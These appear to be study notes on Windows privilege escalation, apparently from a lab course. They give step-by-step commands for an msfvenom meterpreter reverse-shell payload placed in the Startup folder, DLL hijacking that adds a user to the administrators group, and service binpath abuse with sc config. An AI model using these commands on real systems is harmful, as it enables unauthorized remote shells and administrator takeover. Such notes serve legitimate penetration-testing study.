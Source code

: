 - in metasploit: `use multi/handler` then `set payload windows/meterpreter/reverse_tcp` set lhost to your IP and `run`
- with msfvenom: `msfvenom -p windows/meterpreter/reverse_tcp lhost=<your IP> -f exe -o x.exe`
- place ***x.exe*** on the Windows machine here: `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`
- when admin logs in you got a shell

### Escalation path: dll hijacking

- ***.dll*** stands for dynamic library. Shared libraries, variables etc. We often see .dll running with executables, we are looking for a specific instance. At startup Windows is looking for a specific .dll if it doesn't exist we can create one running code in it for our own purposes.

### Detection:

- Find the ***Process Monitor Filter*** on the Windows machine
- set filter: RESULT, IS, NAME NOT FOUND ***the last one you have to type it in to the search bar***, then INCLUDE and hit ***add***
- PATH is coming up in search results that end with .dll, back to filtering, select PATH, ends with, type in ***.dll***, include and hit ***apply***
- if we can control the service we can overwright the .dll files
- command prompt: `sc start dll svc`
- result shows ***name not found*** those are the good ones

### Exploitation:

- several options: we can generate a .dll file with a reverse shell in it and just overwrite the original one while listening on nc
- in this case copy selected .dll file to kali
- open it up in gedit
- replace line: `system(....)` with `system("cmd.exe /k net localgroup administrators user /add ");` ***user being the user we want to create***
- compile it: `x86_64-mingw32-gcc windows_dll.c -shared -o <copied_filename_from_win_machine>.dll
- copy generated file over to the Windows machine's ***/temp*** folder.
- command prompt: `sc stop dllsvc & sc start dllsvc`
- checking results: `net localgroup administrators`

### Escalation path: Service Permissions

### **Important:** in Invoke-Allchecks that we can restart the service, so we can add something to it and restart it!

### For reference: [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#tools)

- **example 1:** found ***daclsvc*** service
- run ***accesschk64.exe*** against it: `accesschk64.exe -wuvc daclsvc`
- query the service: `sc qc daclsvc`
- use the binary path name which is calling out this daclsvc service, we have the changeconfig service we can change the path
- `sc config daclsvc binpath= "net localgroup administrators user /add"`
- it will say ***success!***
- nothing will show up as of now but if we start the service: `sc start daclsvc` then `net localgroup administrators`
- there will be the created "user" withing the administrators group
